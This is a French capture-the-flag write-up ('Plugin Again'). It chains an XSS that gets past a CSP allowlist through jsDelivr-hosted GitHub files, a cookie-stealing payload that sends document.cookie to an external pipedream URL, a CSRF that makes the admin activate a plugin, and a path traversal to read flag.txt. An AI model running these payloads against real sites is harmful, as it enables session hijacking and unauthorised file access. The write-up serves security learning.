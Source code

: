 # Plugin Again

Sur le site on peut écrire des commentaires sur les postes et en regardant un peu les headers on apprend que le site accepete les scripts venant d'un domaine en particulier : `jsdelivr.com`
En se rendant sur `https://www.jsdelivr.com/` on apprend qu'on peut directement faire passer des fichiers de Github :
- De cette manière : `https://cdn.jsdelivr.net/gh/user/repo@version/file`
- Exemple : `https://cdn.jsdelivr.net/gh/darkinfern010/testXSS@main/1.js`

La XSS sera donc `<script src="https://cdn.jsdelivr.net/gh/darkinfern010/testXSS@main/1.js"></script>`

Dans un premier temps on peut essayer de récupérer des cookies des users connecté, puisqu'on peut le voir que Jhonny et Admin sont connectés sur la platforme :
```javascript
function xssPayload() {
  window.location="https://eohab6sr70d2skn.m.pipedream.net/?c"+document.cookie
}

console.log('XSS payload executed');
xssPayload();
```

Et on récupère effectivement un premier cookie de session, en l'utilisant on se connecte en tant que Jhonny.
On a accès à 2 fonctionnalité qui vont être intéressantes, les messages privés et la page plugins.

Dans un premier temps j'ai cru qu'il fallait se connecter en tant qu'admin, alors j'ai mp l'admin avec la même payload qu'avant mais en me connectant j'ai vu qu'on n'avait pas accès à beaucoup plus de choses.
Dans la page plugins on voit qu'un plugin est désactivé et qu'on a pas les droits pour l'activer, alors on va devoir CSRF.
Pour ce faire on va mp l'admin une nouvelle fois mais avec cette payload (toujours gràceà jsDelivr) :
```javascript
location.href = "/activate-plugin/1"
```

Le plugin est bien activé on peut alors passer à la denrière étape, en faisant un peu d'osint on retrouve la template sur [Github](https://github.com/jhonnyCtfSysdream/JhonnyTemplater)
Et dans le fichier `new_post.html` on voit qu'on peut choisir un template pour notre post mais le soucis c'est que le template est ouvert dans `__init__.py` avec la fonction `open`.
Alors on change la value d'un template (directement via l'inspecteur ou burp) en `../../flag.txt` au lieu de `funny` :
`<option id="select1" value="funny">Funny</option>`
devient
`<option id="select1" value="../../flag.txt">Funny</option>`

Et le flag s'affiche à l'écran
